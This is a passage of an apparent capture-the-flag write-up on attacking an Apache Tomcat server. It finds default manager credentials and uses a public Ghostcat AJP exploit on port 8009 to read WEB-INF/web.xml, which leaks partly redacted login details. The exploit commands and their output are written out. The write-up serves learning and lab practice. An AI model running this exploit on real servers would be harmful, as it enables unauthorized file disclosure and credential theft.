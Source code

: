Let's use my tool again on some of the directories to see if there are hidden comments, javascript etc.
Nothing note worthy, so lets look at the `/manager` and `/host-manager` directories:

`/manager`:
We get an access denied, but we also get some default login credentials
```
<role rolename="manager-gui"/>
<user username="tomcat" password="s3cret" roles="manager-gui"/>
```
`/host-manager`:
Again the same.

Now remember one thing. We also had port 8009 with `ajp13`:
```
searchsploit ajp 13
---------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                        |  Path
---------------------------------------------------------------------- ---------------------------------
Apache Tomcat - AJP 'Ghostcat' File Read/Inclusion (Metasploit)       | multiple/webapps/49039.rb
---------------------------------------------------------------------- ---------------------------------
```
Cool! We have an exploit, so I search around on github and found [this](https://github.com/00theway/Ghostcat-CNVD-2020-10487).

### Exploit

Firstly clone the repo over `git clone https://github.com/00theway/Ghostcat-CNVD-2020-10487` and then we can use `ajpshooter` like so:
```
$ ./ajpShooter.py http://$IP 8009 /WEB-INF/web.xml read

       _    _         __ _                 _            
      /_\  (_)_ __   / _\ |__   ___   ___ | |_ ___ _ __ 
     //_\\ | | '_ \  \ \| '_ \ / _ \ / _ \| __/ _ \ '__|
    /  _  \| | |_) | _\ \ | | | (_) | (_) | ||  __/ |   
    \_/ \_// | .__/  \__/_| |_|\___/ \___/ \__\___|_|   
         |__/|_|                                        
                                                00theway,just for test
    

[<] 200 200
[<] Accept-Ranges: bytes
[<] ETag: W/"1261-1583902632000"
[<] Last-Modified: Wed, 11 Mar 2020 04:57:12 GMT
[<] Content-Type: application/xml
[<] Content-Length: 1261

```
Lovely output, now let's look a little lower:
```xml
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
	sk*****:R E D A C T E D
  </description>
```